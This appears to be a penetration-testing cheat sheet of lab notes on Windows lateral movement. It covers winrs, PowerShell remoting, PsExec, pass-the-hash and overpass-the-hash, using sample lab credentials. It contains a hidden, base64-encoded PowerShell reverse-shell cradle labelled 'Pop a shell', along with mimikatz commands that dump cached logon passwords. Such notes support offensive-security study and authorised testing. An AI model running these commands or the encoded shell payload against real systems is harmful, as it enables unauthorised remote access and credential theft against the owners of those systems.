 ### winrs (WinRM - 5985)

Allows us to execute commands remotely

```bash
# Execute commands
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"

# Pop a shell (cradle with ps_cradle_gen.sh)
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

### Powershell Remoting

```powershell
# Create a session
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
Enter-PSSession 1
```

### PsExec

Requires:

- User logging in to be a member of the `administrators` local group
- `ADMIN$` share must be available (default)
- File and printer sharing must be turned on (default)

```bash
./PsExec64.exe -i \\files04 -u corp\jen -p Nexus123! cmd
```

### Pass the Hash

[wmiexec](1%20Tools/Remote%20Connection/wmiexec.md)

This techniques works against Active Directory domain accounts and the built-in local administrator account.

### Overpass the Hash

Provides us with access to a resource with Kerberos authentication using a NTLM hash.

The pretext for this attack involves a user right clicking a file, clicking `Run as different user`, and entering credentials for said user. These credentials are then cached on the machine, and recoverable via `mimikatz`.

```
privilege::debug
sekurlsa::logonpasswords
```
